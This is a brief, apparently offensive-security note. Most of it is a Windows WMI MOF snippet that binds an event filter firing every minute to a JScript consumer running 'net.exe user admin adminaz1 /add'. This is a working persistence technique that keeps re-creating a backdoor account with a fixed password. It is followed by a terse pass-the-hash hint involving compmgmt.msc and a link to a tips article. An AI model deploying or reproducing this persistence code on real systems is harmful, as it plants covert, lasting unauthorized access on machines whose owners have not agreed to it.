| #pragma namespace("\\\\.\\root\\subscription") instance of __EventFilter as $EventFilter { EventNamespace = "Root\\Cimv2"; Name = "filtP2"; Query = "Select * From __InstanceModificationEvent " "Where TargetInstance Isa \"Win32_LocalTime\" " "And TargetInstance.Second = 5"; QueryLanguage = "WQL"; }; instance of ActiveScriptEventConsumer as $Consumer { Name = "consPCSV2"; ScriptingEngine = "JScript"; ScriptText = "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin adminaz1 /add\")"; }; instance of __FilterToConsumerBinding { Consumer = $Consumer; Filter = $EventFilter; };
|
PTH + compmgmt.msc
http://drops.wooyun.org/tips/7358